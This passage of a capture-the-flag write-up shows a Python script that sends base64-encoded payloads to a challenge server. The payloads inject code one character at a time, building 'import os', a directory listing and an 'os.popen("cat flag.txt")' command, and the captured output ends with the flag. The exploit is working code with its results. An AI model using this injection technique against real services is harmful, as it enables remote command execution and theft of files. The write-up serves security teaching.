con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icyInKX0=") # a += "s"
time.sleep(1)
print(con.recv(4096).decode())


con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iOyInKX0=") # a += ";"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iaSInKX0=") # a += "i"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibSInKX0=") # a += "m"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icCInKX0=") # a += "p"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iciInKX0=") # a += "r"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0idCInKX0=") # a += "t"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iICInKX0=") # a += " "
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icyInKX0=") # a += "s"
time.sleep(1)
print(con.recv(4096).decode())


con.send(b"ezU6772FeGVjKGYnZ2xvYmFsIGE7e2F9Jyl9") # exec(a)
time.sleep(1)
print(con.recv(4096).decode())

print("global os;import os")


### os.listdir()


con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthPSJvIicpfQ==") # a = "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icyInKX0=") # a += "s"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iLiInKX0=") # a += "."
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibCInKX0=") # a += "l"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iaSInKX0=") # a += "i"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icyInKX0=") # a += "s"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0idCInKX0=") # a += "t"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iZCInKX0=") # a += "d"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iaSInKX0=") # a += "i"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iciInKX0=") # a += "r"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iKCInKX0=") # a += "("
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iKSInKX0=") # a += ")"
time.sleep(1)
print(con.recv(4096).decode())

print("os.listdir()")


con.send(b"ezU6772FeGVjKGYnZ2xvYmFsIGI7Yj17YX0nKX0=") # b = exec(a)
time.sleep(1)
print(con.recv(4096).decode())

con.send("eyJ1c2VyX25hbWUiOnN0cihiKX0=".encode()) # print(b)
#con.send(b"eyJ1c2VyX25hbWUiOnN0cihhKX0=") # print(a)
time.sleep(1)
print(con.recv(4096).decode())
```

End of the output : 

```py
username not found
Please give your username for the leaderboard

username not found
Please give your username for the leaderboard

No existing score for ['jigsaw2.db', 'supervisord.log', 'jigsaw.log', '__pycache__', 'supervisord.pid', 'flag.txt', 'questions.py', 'db.py', 'venv', 'requirements.txt', 'SessionHandler.py', 'jigsaw2.py', 'words.txt']
Please give your username for the leaderboard
```


We can see that there is a file called `flag.txt`, let's try to get his content with the command `cat flag.txt`.

```py
global os; import os
os.popen("cat flag.txt").read()
```

There is one single problem, to do a `"`, we need to send `exec('a+="\""')` which does 28 characters with the `\`.

To overcome this problem, I simple created a new varaible called `c = '"'`. How ?

When we create a new variable, we only need to use `=` and not `+=`, so we basically can send 2 characters during affectaion. So I just need to create `c ` with `exec('c="\""')` and then use `c` with `exec('a+=c')`.

Let's create the program, as for the previous one, I won't put everything here, you can find the complete program [here](scripts/jigsaw-get-flag.py)

```py
### global os;import os

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthPSJnbCInKX0=") # a = "gl"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYiInKX0=") # a += "b"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYSInKX0=") # a += "a"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibCInKX0=") # a += "l"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iICInKX0=") # a += " "
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icyInKX0=") # a += "s"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iOyInKX0=") # a += ";"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iaSInKX0=") # a += "i"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibSInKX0=") # a += "m"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icCInKX0=") # a += "p"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iciInKX0=") # a += "r"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0idCInKX0=") # a += "t"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iICInKX0=") # a += " "
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icyInKX0=") # a += "s"
time.sleep(1)
print(con.recv(4096).decode())


con.send(b"ezU6772FeGVjKGYnZ2xvYmFsIGE7e2F9Jyl9") # exec(a)
time.sleep(1)
print(con.recv(4096).decode())

print("global os;import os")

### os.popen("cat flag.txt").read()


con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthPSJvIicpfQ==") # a = "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icyInKX0=") # a += "s"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iLiInKX0=") # a += "."
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icCInKX0=") # a += "p"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0icCInKX0=") # a += "p"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iZSInKX0=") # a += "e"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibiInKX0=") # a += "n"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iKCInKX0=") # a += "("
time.sleep(1)
print(con.recv(4096).decode())


################# name
print("c = \"")
con.send(b"ezU6772FeGVjKCdnbG9iYWwgYztjPSJcJyInKX0=") # c = """
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz1jJyl9") # a += c
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYyInKX0=") # a += "c"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYSInKX0=") # a += "a"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0idCInKX0=") # a += "t"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iICInKX0=") # a += " "
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iZiInKX0=") # a += "f"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibCInKX0=") # a += "l"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYSInKX0=") # a += "a"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iZyInKX0=") # a += "g"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iLiInKX0=") # a += "."
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0idCInKX0=") # a += "t"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ieCInKX0=") # a += "x"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0idCInKX0=") # a += "t"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz1jJyl9") # a += c
time.sleep(1)
print(con.recv(4096).decode())

################ end name

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iKSInKX0=") # a += ")"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iLiInKX0=") # a += "."
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iciInKX0=") # a += "r"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iZSInKX0=") # a += "e"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYSInKX0=") # a += "a"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iZCInKX0=") # a += "d"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iKCInKX0=") # a += "("
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iKSInKX0=") # a += ")"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKGYnZ2xvYmFsIGI7Yj17YX0nKX0=") # b = exec(a)
time.sleep(1)
print(con.recv(4096).decode())

con.send("eyJ1c2VyX25hbWUiOnN0cihiKX0=".encode()) # print(b)
#con.send(b"eyJ1c2VyX25hbWUiOnN0cihhKX0=") # print(a)
time.sleep(1)
print(con.recv(4096).decode())
```

```
username not found
Please give your username for the leaderboard

username not found
Please give your username for the leaderboard

No existing score for ECW{1NC0RR3CT_S4N1T1Z4T10N}

Please give your username for the leaderboard
```

And here we got the flag.

For those who wonder why I didn't automate something with a loop, there is 2 reasons, firstly it was late and I prefered to do a writeup on how I flaged the challenge the first time, secondly base64.b64encode does shit when you give him the ｅ.